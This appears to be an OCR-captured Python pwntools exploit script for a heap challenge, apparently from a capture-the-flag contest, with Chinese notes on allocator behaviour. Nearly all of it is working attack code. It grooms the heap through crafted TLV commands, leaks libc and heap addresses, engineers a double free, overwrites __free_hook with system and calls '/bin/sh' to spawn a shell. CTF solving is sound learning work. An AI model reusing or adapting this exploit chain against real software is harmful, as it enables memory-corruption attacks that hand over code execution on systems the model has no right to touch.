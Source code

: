 ```py
    return assemble(4,content1,content2,is_save)

def assemble_0x50(b,address):
    return (b*0x8 + p64(address)).ljust(0x50)
# leak but how? think about it 可不可以让 free 的堆块和 unsorted bin 合并？懂了为啥被冲了 不应该放到第二个开始 add 的堆块
# cmdAdd 一次 malloc 0x18 looper_start malloc 0x30
# malloc 大 size 的地方：每次 parseTLVCfgCMD 的时候都会，MsgHandler::handleCMD 里面调用 parseTLVCfgCMD 再 malloc 一次 cmdAdd 里面 malloc 两次 delete 一次 handleCMD 调用完 subhandler 之后再 free 掉大堆块

payload = cmdAdd(b"a"*0x50,b"b"*0x50,0) + cmdAdd(b"e"*0x50,b"f"*0x50,0) + cmdAdd(b"c"*0x50,b"d"*0x450,1) + cmdAdd(b"r"*0x50,b"d"*0x180,0) + cmdAdd(b"f"*0x50,b"d"*0x1b0,0)
payload += cmdDel(b"c"*0x50,b"d"*0x50,0)
payload += cmdVisit(b"c"*0x50,b"b"*0x180,0)
payload1 = assemble_all(1,65,7,payload)
# 0x7fb5804fb000 0x7fb5806e7be0
p.recvuntil("Enter command: ")
p.sendline(payload1)
# leak libc
p.recvuntil("Content: ")
libc_leak = u64(p.recv(6).ljust(8,b"\x00"))
print(hex(libc_leak))
libc_base = libc_leak - 0x1ecbe0
print(hex(libc_base))
free_hook = libc_base + libc.sym["__free_hook"]
system = libc_base + libc.sym["system"]

# heap leak
p.recvuntil("Enter command: ")
payload2 = cmdAdd(b"m"*0x50,b"b"*0x50,0) + cmdAdd(b"n"*0x50,b"f"*0x50,0) + cmdAdd(b"o"*0x50,b"d"*0x50,1) + cmdAdd(b"p"*0x50,b"d"*0x50,0) + cmdAdd(b"q"*0x50,b"d"*0x50,0) + cmdAdd(b"a",b"d",0) + cmdAdd(b"b",b"d",0) + cmdAdd(b"c",b"d",0)
payload2 += cmdDel(b"o"*0x50,b"d"*0x50,0)
payload2 += cmdVisit(b"o"*0x50,b"b"*0x80,0)
payload1 = assemble_all(1,65,10,payload2)
p.sendline(payload1)
p.recvuntil("Content: ")
heap_leak = u64(p.recv(6).ljust(8,b"\x00"))
print(hex(heap_leak))
# have do to double free
# gdb.attach(p,'''
#     b *$rebase(0x3a4c)
#     b *$rebase(0x3ce9)
#     b *$rebase(0x35cf)
# ''')
# pause()
p.recvuntil("Enter command: ")
payload3 = cmdAdd(b"z"*0x50,b"b"*0x20,0) + cmdAdd(b"x"*0x50,b"f"*0x20,0) + cmdAdd(b"y"*0x50,b"d"*0x50,1) + cmdAdd(b"v"*0x20,b"d"*0x50,0) + cmdAdd(b"w",b"d"*0x50,0)
payload3 += cmdDel(b"m"*0x50,b"d"*0x20,0)+cmdDel(b"o"*0x50,b"d"*0x20,0)+cmdDel(b"p"*0x50,b"d"*0x20,0)+cmdDel(b"q"*0x50,b"d"*0x20,0)+cmdDel(b"w",b"f"*0x20,0)+cmdDel(b"a",b"d",0) + cmdDel(b"y"*0x50,b"d"*0x50,0)
# update have double free 要把第一个 delete 的 chunk 先扔到 tcache 里面，那我的 name 域不能是 heap_base + 0x10 所以要把含有信息的 0x20 堆块也扔 fastbin
# 每一轮 parseTLVCfgCMD 都会一开始 malloc 0x30 然后 malloc name 和 content, cmdAdd 里面 operator new(0x18uLL) 在本轮处理结束后再 free name 和 content
# Delete Config 的时候也是先 free name 和 content 然后再 free Config
# 在 operator new 的时候会先 malloc 2，**从 tcache 取出的堆块的 bk 会被清零** 然后再最后塞到 fastbin 里面
payload_0x50 = (b"s"*0x8+p64(system)).ljust(0x50)
payload3 += cmdUpdate(p64(free_hook-0x18).ljust(0x50),p64(free_hook-0x18).ljust(0x50),0) + cmdAdd(assemble_0x50(b"a",system),payload_0x50,0) + cmdAdd(b"/bin/sh\x00".ljust(0x50),payload_0x50,0) + cmdAdd(assemble_0x50(b"c",system),payload_0x50,0) + cmdAdd(assemble_0x50(b"d",system),payload_0x50,0)
p.sendline(assemble_all(1,65,17,payload3))

```